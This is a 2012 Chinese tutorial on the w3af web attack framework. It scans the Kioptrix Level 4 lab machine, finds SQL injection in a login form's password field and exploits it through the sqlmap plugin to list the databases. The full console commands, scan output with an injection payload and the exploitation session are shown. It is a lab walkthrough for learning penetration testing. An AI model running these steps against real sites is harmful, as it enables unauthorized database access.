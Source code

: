 ```yaml
---
title: "w3af 简单使用教程"
pubDate: 2012-08-25T21:36:30+08:00
lastmod: 2012-08-25T21:37:30+08:00
keywords: [w3af 简单使用教程]
description: "w3af 简单使用教程"
categories: [Misc]

---
```


本文为 2012 年在 [FreeBuf](https://www.freebuf.com/ "FreeBuf") 发表的文章，原地址为：[w3af 简单使用教程](https://www.freebuf.com/articles/5472.html "w3af 简单使用教程")。以下内容均无修改。

w3af是一个Web应用程序攻击和检查框架.该项目已超过130个插件,其中包括检查网站爬虫,SQL注入(SQL Injection),跨站(XSS),本地文件包含(LFI),远程文件包含(RFI)等.该项目的目标是要建立一个框架,以寻找和开发Web应用安全漏洞,所以很容易使用和扩展.

<!--more-->

## 0×00 概述

在BackTrack5R3下使用w3af测试Kioptrix Level 4的SQL注入漏洞.

## 0×01 简介

w3af是一个Web应用程序攻击和检查框架.该项目已超过130个插件,其中包括检查网站爬虫,SQL注入(SQL Injection),跨站(XSS),本地文件包含(LFI),远程文件包含(RFI)等.该项目的目标是要建立一个框架,以寻找和开发Web应用安全漏洞,所以很容易使用和扩展.

## 0×02 安装

```shell
root@bt:~# apt-get install w3af
```

## 0×03 启动

```shell
root@bt:~# cd /pentest/web/w3af/
root@bt:/pentest/web/w3af# ./w3af_console
```

## 0×04 漏洞扫描配置

```text
w3af>>> plugins
//进入插件模块
w3af/plugins>>> list discovery 
//列出所有用于发现的插件
w3af/plugins>>> discovery findBackdoor phpinfo webSpider 
//启用findBackdoor phpinfo webSpider这三个插件
w3af/plugins>>> list audit 
//列出所有用于漏洞的插件
w3af/plugins>>> audit blindSqli fileUpload osCommanding sqli xss 
//启用blindSqli fileUpload osCommanding sqli xss这五个插件
w3af/plugins>>> back
//返回主模块
w3af>>> target
//进入配置目标的模块
w3af/config:target>>> set target http://192.168.244.132/
//把目标设置为http://192.168.244.132/
w3af/config:target>>> back
//返回主模块
```

## 0×05 漏洞扫描

```text
w3af>>> start
```

```text
---
New URL found by phpinfo plugin: http://192.168.244.132/
New URL found by phpinfo plugin: http://192.168.244.132/checklogin.php
New URL found by phpinfo plugin: http://192.168.244.132/index.php
New URL found by webSpider plugin: http://192.168.244.132/
New URL found by webSpider plugin: http://192.168.244.132/checklogin.php
New URL found by webSpider plugin: http://192.168.244.132/index.php
Found 3 URLs and 8 different points of injection.
The list of URLs is:
- http://192.168.244.132/index.php
- http://192.168.244.132/checklogin.php
- http://192.168.244.132/
The list of fuzzable requests is:
- http://192.168.244.132/ | Method: GET
- http://192.168.244.132/ | Method: GET | Parameters: (mode="phpinfo")
- http://192.168.244.132/ | Method: GET | Parameters: (view="phpinfo")
- http://192.168.244.132/checklogin.php | Method: GET
- http://192.168.244.132/checklogin.php | Method: POST | Parameters: (myusername="", mypassword="")
- http://192.168.244.132/index.php | Method: GET
- http://192.168.244.132/index.php | Method: GET | Parameters: (mode="phpinfo")
- http://192.168.244.132/index.php | Method: GET | Parameters: (view="phpinfo")
Blind SQL injection was found at: "http://192.168.244.132/checklogin.php", using HTTP method POST. The injectable parameter is: "mypassword". This vulnerability was found in the requests with ids 309 to 310.
A SQL error was found in the response supplied by the web application, the error is (only a fragment is shown): "supplied argument is not a valid MySQL". The error was found on response with id 989.
A SQL error was found in the response supplied by the web application, the error is (only a fragment is shown): "mysql_". The error was found on response with id 989.
SQL injection in a MySQL database was found at: "http://192.168.244.132/checklogin.php", using HTTP method POST. The sent post-data was: "myusername=John&Submit=Login&mypassword=d'z"0". The modified parameter was "mypassword". This vulnerability was found in the request with id 989.
Scan finished in 19 seconds.
---
//开始扫描
```

## 0×06 漏洞利用配置

```text
w3af>>> exploit 
//进入漏洞利用模块
w3af/exploit>>> list exploit
//列出所有用于漏洞利用的插件
w3af/exploit>>> exploit sqlmap 
//使用sqlmap进行SQL注入漏洞的测试
```

```text
---
Trying to exploit using vulnerability with id: [1010, 1011]. Please wait...
Vulnerability successfully exploited. This is a list of available shells and proxies:
- [0] <sql object ( dbms: "MySQL >= 5.0.0" | ruser: "root@localhost" )>
Please use the interact command to interact with the shell objects.
---
//测试存在SQL注入漏洞
//这里要记住shell objects(这里是0),等一下要用到
0x07 漏洞利用
w3af/exploit>>> interact 0
//interact + shell object就可以利用了

---
Execute "exit" to get out of the remote shell. Commands typed in this menu will be run through the sqlmap shell
w3af/exploit/sqlmap-0>>> 
---
//sqlmap的一个交互式模块

w3af/exploit/sqlmap-0>>> dbs   

---
Available databases:  [3]:
[*] information_schema
[*] members
[*] mysql
---
//成功获得数据库信息
```
